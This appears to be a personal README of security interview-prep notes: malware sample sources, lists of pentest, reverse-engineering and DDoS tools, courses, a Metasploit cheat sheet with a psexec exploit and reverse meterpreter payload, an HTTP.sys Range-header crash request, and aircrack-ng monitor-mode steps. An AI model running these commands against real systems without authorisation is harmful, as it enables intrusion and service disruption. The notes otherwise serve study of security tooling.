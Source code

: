 # Interview_prep_resources


----------------------------------MALWARE SOURCES FOR TESTING--------------------------------------------

vxvault.net -------check if live or not------
malc0de.com --------check if links dont have same malware---
support.clean-mx.com -----can search--- cleanmx has other stuff too / phish tank for phishing more links
virustotal.com -----Become community member---
virussign.com ------Packs of malware 300-500 per day for checking hit and miss ratio----
malwaretips.com / malwarebytes forums
https://malwarebreakdown.com/--------------------------------samples hasherazde
https://www.malware-traffic-analysis.net/ ------------------------samples hasherazde
sci-hub.tw

---------------------TOOLS TO LEARN-------------------------------------------------------------------
cat 
nano 
vim
Nessus
Core Impact
Fuzzybench
Airgeddon
Nmap
Zenmap
Spartan
Nikto
Owasp-zap
Aircrack-ng
Autosploit
Metasploit console
Burpsuit
Wireshark
Armitage
Jhonny
Recon-ng
Vega
SQLMAP
WPscan
Hashcat
Lower Orbital Ion Cannon
Lazy Script
Xerxes

----------------------------------SOFTWARES USED FOR TESTING--------------------------------------------

Proccess Hacker
Process monitor filter for create and exit
APIMonitor

OLLYDBG
IDA-Pro 
Burp Suite
Malzilla
LordPE
Scylia x86
sublime text
x32 dbg
x96 dbg
TcplogView
Procman 
HashMyFile
flypaper
DNS QUery seer
curl 
capture bat
HoD Search with security reference


---------------------------------------------------Courses-----------------------------------------------

https://www.begin.re/ – Reverse Engineering for beginners
Reverse Engineering Malware 101 and 102 – by MalwareUnicorn
http://legend.octopuslabs.io/sample-page.html
http://opensecuritytraining.info/Training.html
https://samsclass.info/126/126_S17.shtml – Practical Malware Analysis


------------------------------------UefulLinks-----------------------------------------------------------
https://www.hybrid-analysis.com/sample/ed01ebfbc9eb5bbea545af4d01bf5f1071661840480439c6e5babe8e080e41aa?environmentId=100
https://oalabs.openanalysis.net/2018/07/16/oalabs_malware_analysis_virtual_machine/
http://win32assembly.programminghorizon.com/pe-tut2.html
https://hshrzd.wordpress.com/how-to-start/#comment-3810
https://tuts4you.com/e107_plugins/download/download.php?view.1230
http://www.sammy.pl


		
----------------------------------------------Metasploit Commands-------------------------------------------------
>banner(change to cow because why not)
> ? (works like a cisco router)
> use exploit/windows/smb/psexec (PSEXEC)
>show options (see what is set and what is available)
> set PAYLOAD windows/meterpreter/reverse_https (changes the )
>exploit -h (help)
>exploit -j (runs the job)
>sessions -i 1 (interact with session 1)
> irb (interpreter for ruby/ ruby shell)
>client.railgun.user32.LockWorkStation() 
>>exit
curl -v SERVER_IP -H "Host: anything" -H "Range: bytes=0-18446744073709551615"
>edit file.exe
>>wq(write quit)

>info
>reload

>load +tab(list of plugins| can also be found at metasploit-framework/plugins)


>set SMBUser Administrator
>>set SMBPass

--------------------------------Metasploit points to remember---------------------------------------------------------
Session is created for a module
can create multiple jobs and sessions
can save sessions along with the config
can run ruby code in msf 

-----------------------------Aircrack-ng-------------------------------------------------------------
-wireless n/w auditing tool
prerequisites to intsall on debian based(excluding kali and parrotsec)
sudo apt-get install build-essential
sudo apt-get install libssl-dev
--
installing aircrackng----
wget(download stuff)
wget http://download.aircrack-ng.org/aircrack-ng-1.1.tar.gz
tar -zxvf aircrack-ng-1.1.tar.gz
cd aircrack-ng-1.1
sudo gedit common.mak (can use nano or vim too)
remove -Werror in the CFLAGS attribute and save
>make
>sudo make install

---ifconfig check wlan interface
---put it in monitor mode
>ifconfig wlan0 down
>ifconfig wlan0 mode monitor
>ifconfig wlan0 up
--check for processes that may cause interferance
>airmon-ng check wlan0
>kill (network manager first, put in PID#)
>airmon-ng check wlan0
>kill (dhclient,put in PID#)
>airmon-ng check wlan0
>kill (kill the rest one by one even if they keep spawning)
>airmon-ng check wlan0 (check until empty)

